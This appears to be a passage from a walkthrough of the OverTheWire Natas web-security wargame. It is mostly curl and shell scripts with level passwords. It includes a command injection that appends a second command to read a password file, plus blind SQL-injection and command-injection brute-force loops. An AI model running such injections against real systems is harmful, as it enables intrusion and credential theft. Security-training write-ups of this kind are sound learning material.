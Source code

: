 ```sh
curl --silent --user natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe --data "secret=oubWYf2kBq&submit=Submit" http://natas8.natas.labs.overthewire.org | grep "password for natas9"
```

## natas9

```sh
curl --silent --user natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org
```

View source

```sh
curl --silent --user natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl http://natas9.natas.labs.overthewire.org/index-source.html | w3m -dump -T text/html
```

Keyword is sent through $_REQUEST['needle'], if keywork is not NULL, function `passthru` will exec cmd ```grep -i $key dictionary.txt```. Text to cmd, we can do very much with it, try injection ```;``` and you have 2 cmd, it means that you can control every command you want

```sh
_url_natas9="$(echo 'http://natas9.natas.labs.overthewire.org/index.php?needle=tmp; cat /etc/natas_webpass/natas10 #' | \
	sed 's/ /%20/g' | \
	sed 's/#/%23/g')"
curl --silent --user natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl $_url_natas9
```

## natas16

```sh
_password=""
for _i in {1..32}; do
  for _j in {48..122}; do
    echo -e "Try $_j at position $_i"
    _url="$(curl -s --user natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J --data "username=natas16\" AND ASCII(SUBSTRING((SELECT password FROM users where username=\"natas16\" limit 0,1),$_i,1)) = \"$_j\"-- +" natas15.natas.labs.overthewire.org/index.php)"
    filter=$(echo $_url | grep "er exists")
    if [[ -n $filter ]]; then
      _password="$_password$(printf "\x$(printf %x $_j)")"
      echo -e $_password
      break
    fi
  done
done
```

## natas17

```sh
_password=""
for _i in {1..32}; do
  for _j in {A..z} {9..0}; do
    echo -e "Try char $_j at position $_i"
    _url="$(curl -s --user natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh 'http://natas16.natas.labs.overthewire.org/?needle=%24(egrep+^'${_password}${_j}'.*+%2Fetc%2Fnatas_webpass%2Fnatas17)sonatas&submit=Search')"
    filter=$(echo $_url | grep "sonatas")
    if [[ -z $filter ]]; then
        _password="$_password$_j"
        echo -e $_password
        break
    fi
```